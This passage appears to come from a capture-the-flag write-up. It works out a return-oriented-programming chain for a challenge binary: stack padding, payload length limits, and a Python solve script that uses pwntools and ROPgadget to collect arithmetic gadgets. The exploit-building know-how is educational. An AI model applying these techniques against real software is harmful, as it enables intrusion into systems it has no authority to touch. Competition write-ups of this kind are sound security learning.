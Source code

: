 * The `rbp` is popped off the stack before the `ret` in `vuln`. Our ROP chains will only be called after the pop.
* We're limited to 0x2000 characters in the read syscall. However, due to limits on the stack size, we may only have up to about 4000 characters (by checking gdb, gef, vmmap).
* We need to call `print` once `ax` is set to whatever value we're asked.

This means:

* We should add 8 bytes of padding as our "dummy" `rbp`.
* Our gadget payload shouldn't be more than 4000 chars long, to set some realistic limits.
* We should add 8 bytes to call `print` after the gadget payload.

#### Inspect-our Gadgets
{% image "assets/inspector-gadget.png", "", "w-30" %}

Firstly, we'll load all the provided arithmetic gadgets into a list for convenience. Using [`ROPgadget`](https://github.com/JonathanSalwan/ROPgadget) and hacking a bit into the tool, we start with the following code:

```py
# solve.py
from pwn import *
import re
from ropgadget.args import Args as ropargs
from ropgadget.core import Core as ropcore


def is_good_gadget(g):
    return g['gadget'].startswith('lea rbx') and g['gadget'].endswith('ret')


def solve(target: int, file='elf'):
    def resolve_gadget(gadget):
        m = re.match(r'lea rbx, \[0x([0-9a-f]+)\] ; (\w+) ax, word ptr \[rbx\] ; ret', gadget['gadget'])
        if m.group(2) not in ['add', 'sub', 'xor']:
            raise RuntimeError('operation unknown')
        const_addr = int(m.group(1), 16)
        return {'vaddr': gadget['vaddr'], 'op': m.group(2), 'const': elf.u16(const_addr)}

    # `--depth 15` is important, as it tells ROPgadget to search for longer chains.
    core = ropcore(ropargs(f'--binary {file} --depth 15 --silent'.split()).getArgs())
    if not core.analyze():
        raise RuntimeError("ROPgadget: error analyzing elf")

    good_gadgets = [*map(resolve_gadget, filter(is_good_gadget, core.gadgets()))]
```

All our arithmetic gadgets are now stored in `good_gadgets`, which is a list of dictionaries. Each dictionary contains has a `vaddr` key (the address of the gadget), an `op` key (the operation of the gadget: `'add'`/`'sub'`/`'xor'`), and a `const` key (the value of the constant being applied). The next step is to separate them into the `add`, `sub`, and `xor` ROP gadgets. Those are the only three categories of arithmetic available.
